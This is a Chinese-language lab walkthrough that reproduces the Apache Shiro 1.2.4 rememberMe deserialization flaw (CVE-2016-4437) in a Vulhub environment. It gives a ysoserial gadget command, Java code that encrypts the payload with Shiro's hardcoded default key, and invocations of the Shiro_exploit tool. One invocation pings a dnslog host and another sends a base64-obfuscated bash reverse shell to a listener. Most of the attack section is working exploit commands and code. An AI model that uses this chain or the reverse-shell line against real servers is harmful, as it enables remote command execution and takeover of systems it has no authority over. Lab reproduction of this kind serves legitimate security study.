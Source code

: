 # Apache Shiro 1.2.4反序列化漏洞 CVE-2016-4437

## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 环境搭建

Vulhub执行如下命令启动一个使用了Apache Shiro 1.2.4的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可使用`admin:vulhub`进行登录。

## 漏洞复现

### 方法1 Shiro默认密钥加密Payload

使用ysoserial生成CommonsBeanutils1的Gadget：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

参考Vulhub，可以使用Shiro内置的默认密钥对Payload进行加密：

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

发送rememberMe Cookie，即可成功执行`touch /tmp/success`。

### 方法2 命令行 Shiro_exploit

此处使用[Shiro_exploit](https://github.com/insightglacier/Shiro_exploit)进行复现，首先，检测漏洞是否存在：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "ping -c 2 shiro.xxxxx.ceye.io"
```

dnslog平台接收到请求，证明漏洞存在。

![image-20220301110544180](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011105220.png)

执行反弹shell语句：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}"
```

监听9999端口，接收反弹shell：

![image-20220301095455181](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203010954296.png)

